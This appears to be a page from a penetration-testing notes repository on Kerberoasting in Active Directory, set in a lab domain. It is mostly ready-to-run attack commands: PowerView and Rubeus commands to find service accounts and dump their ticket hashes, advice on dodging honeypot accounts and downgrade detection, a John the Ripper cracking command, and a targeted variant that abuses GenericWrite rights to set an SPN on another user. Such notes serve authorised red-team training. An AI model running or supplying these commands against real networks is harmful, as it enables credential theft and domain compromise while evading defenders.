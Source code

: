 # Methodology
> 1. Enumerate what user account running as a service account we want to kerberoast.
> 2. Make sure it's not a honey pot account.
> 3. Make sure is a user made account, we don't want machine accounts since they have long passwords.
> 4. If OPSEC is needed kerberoast RC4-only accounts and add a delay between requesting tickets.
> 5. Kerberoast the user account.
> 6. Make sure we get back a RC4 hash and not an AES256 hash.
> 7. Crack the ticket. 
---
# PowerShell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find users that have an SPN set:**

```powershell
Get-DomainUser -SPN | select cn, serviceprincipalname
```

**Find users that have an SPN set and are RC4-only:**
```powershell
Get-DomainUser -SPN -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes | 
Where-Object {
    # Accounts that explicitly only support RC4 (0x17)
    ($_.'msds-supportedencryptiontypes' -eq 4) -or
    # Accounts with no encryption type specified (default to RC4)
    ($_.'msds-supportedencryptiontypes' -eq $null) -or
    # Accounts with encryption type set to 0 (default to RC4)
    ($_.'msds-supportedencryptiontypes' -eq 0)
} | Format-Table samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```

**Request a ticket:**
```powershell
# With SPN
Request-SPNTicket -SPN "HTTP/eyrie.north.sevenkingdoms.local" | Select-Object -ExpandProperty hash

# With account name
Get-DomainUser -Identity "sansa.stark" -SPN | Get-DomainSPNTicket | Select-Object -ExpandProperty hash

# Get all SNP account hashes. WARNING: EXTREMELY NOSIY!
Invoke-Kerberoast -OutputFormat Hashcat | Select-Object -ExpandProperty hash | Out-File -FilePath .\spn_hashes.txt
```
---

# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).
## Rubeus
**Request a ticket:**
```cmd
# With account name
Rubeus.exe kerberoast /user:serviceaccount /simple

# RC4-Only account (Avoids downgrade detection, skips AES supported tickets)
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec

# Get all SNP account hashes. WARNING: EXTREMELY NOISY!
Rubeus.exe kerberoast /simple
```


# Ticket Crack
https://www.openwall.com/john/k/john-1.9.0-jumbo-1-win64.zip

**Using John**:
```cmd
john-1.9.0-jumbo-1-win64\run\john.exe -- wordlist=rockyou.txt spn_hash.txt
```


# Targeted Kerberoasting
If we have sufficient rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain) instead of changing the password.
## Methodology
> 1. Check if we have Generic All/Generic Write over another user by checking groups it belongs to.
> 2. Check if the user already has an SPN.
> 3. Set the SPN.
> 4. Kerberoast the user account.
> 5. Make sure we get back a RC4 hash and not an AES256 hash.
> 6. Crack the ticket. 

**Search for GenericAll/GenericWrite:**
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | 
Where-Object {
    ($_.ActiveDirectoryRights -match "GenericAll|GenericWrite") -and
    ($_.IdentityReferenceName -match "StudentUsers")
} | Select-Object ObjectDN,ActiveDirectoryRights,IdentityReferenceName
```

**Check if the user has an SPN:**
```powershell
Get-DomainUser -Identity supportXuser | select serviceprincipalname
```

**Set the SPN:**
```powershell
Set-DomainObject -Identity supportXuser -Set @{serviceprincipalname='us/myspnX'} -Verbose
```

**Request the ticket:**
```cmd
Rubeus.exe kerberoast /user:supportXuser /simple /rc4opsec
```